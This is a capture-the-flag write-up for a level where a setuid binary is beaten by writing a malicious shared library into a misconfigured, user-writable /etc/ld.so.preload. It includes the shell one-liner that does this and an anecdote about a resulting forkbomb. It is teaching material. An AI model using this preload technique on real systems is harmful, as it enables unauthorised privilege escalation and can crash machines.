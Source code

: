 # Level 4

`level4` is, yet again, a `setuid` binary.

```shell
> ls -l $(which level4) && file $(which level4)
```

```
-rwsr-sr-x 1 level4 users 7599 Oct 6 17:58 level4
level4: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.32,
 BuildID[sha1]=6a7a5309f0563cc7ccfbfd6997233206bad635f9, not stripped
```

---

Running it gives us the current date and a supposed random number.

```shell
> level4
```

```
It's 18:48:49 on 06-10-2014. 
Your random number of the day is 1470193859.
```

---

`strings` does not reveal anything interesting, and neither does `ltrace`.

```shell
> strings $(which level4)
```

```
/lib64/ld-linux-x86-64.so.2
jzS	
libc.so.6
srand
puts
strftime
printf
localtime
__libc_start_main
__gmon_start__
GLIBC_2.2.5
UH-p
fffff.
AWAVA
AUATL
[]A\A]A^A_
It's %H:%M:%S on %d-%m-%Y. 
Your random number of the day is %d.
;*3$"
```

```shell
> ltrace $(which level4)
```

```
__libc_start_main(0x4005c0, 1, 0x7fffea7f83a8, 0x400720 <unfinished ...>
time(0)                                                                 = 1412592529
srand(0x54327391, 0x7fffea7f83a8, 0x7fffea7f83b8, 0)                    = 0
time(0x7fffea7f8268)                                                    = 1412592529
localtime(0x7fffea7f8268)                                               = 0x7f5964168a60
strftime("It's 18:48:49 on 06-10-2014. ", 80, "It's %H:%M:%S on %d-%m-%Y. ", 0x7f5964168a60) = 29
puts("It's 18:48:49 on 06-10-2014. "It's 18:48:49 on 06-10-2014. 
)                                   = 30
rand(0, 0x7f5964389000, 0x7f5964165a40, -1)                             = 0x7dd08b8a
printf("Your random number of the day is"..., 2110819210Your random number of the day is 2110819210.
)               = 45
+++ exited (status 0) +++
```

---

After three levels of application-induced vulnerabilities, it was time to bowl a googly.
Progress at this point requires knowledge of the dynamic loader on GNU/Linux
(called `ld.so`, but technically `ld-linux.so.{1,2}`).


Experienced CTF-ers would attempt to inject a library into the `level4`'s runtime via `LD_PRELOAD`.
Using the `LD_PRELOAD` environment variable would typically forcibly load and link the listed libraries
to any executed binary.

However, under modern systems, the `ld.so`'s response to any attempt to `LD_PRELOAD` a setuid binary
is [something like this](https://www.youtube.com/watch?v=gvdf5n-zI14).

```shell
> LD_PRELOAD=/tmp/inject.so level4
```

```
It's 18:48:49 on 06-10-2014. 
Your random number of the day is 1470193859.
```

---

Anyone familiar with `ld.so`, or who read the manual pages of `ld.so` would also be familiar with
`/etc/ld.so.preload`:

```
/etc/ld.so.preload
       File containing a whitespace-separated list of ELF shared libraries to be loaded before the program.
```

`/etc/ld.so.preload` usually does not exist on a system, and if it does, it is only writable by root,
and so it is deemed "secure" by `ld.so`. Thus, libraries listed within are pre-loaded even when
executing `setuid` binaries.

The solution to level4 is to notice that the target system is poorly-configured.
`/etc.ld.so.preload` does exist, and is writable by users.

```shell
> ls -l /etc/ld.so.preload
```

```
-rw-rw-r-- 1 root users 0 Oct 6 19:14 /etc/ld.so.preload
```

---

Pre-loading a shared library gives us the flag.

```shell
> echo "$PWD/inject.so" > /etc/ld.so.preload && level4 && echo '' > /etc/ld.so.preload
```

```
It's 18:48:49 on 06-10-2014. 
aMahxaexi7cai8usahthoo8Niemoorietie2aen6
Your random number of the day is 0.
```

\#win

## Note

The `rand` function was overwritten because it would have the least impact on any other
executables that launch while the shared object is listed in `ld.so.preload`.

During Geekcamp 2014, participants overwrote various functions, including `__attribute__((constructor))`
and core glibc functions with a function that calls `system`.
`system`, unfortunately, runs a shell, which (because of the preload) attempts to call `system` itself,
ad ~~infinitum~~ forkbombum.

In a case where each participant is given a target machine, this can be somewhat amusing since a player who has
almost captured the final flag could be thwarted by killing his target machine. To exploit this "feature", 
one could have a `/home/level4/.finalflag` or similar, the existence of which should not be known
to participants until they log in as the level4 user.
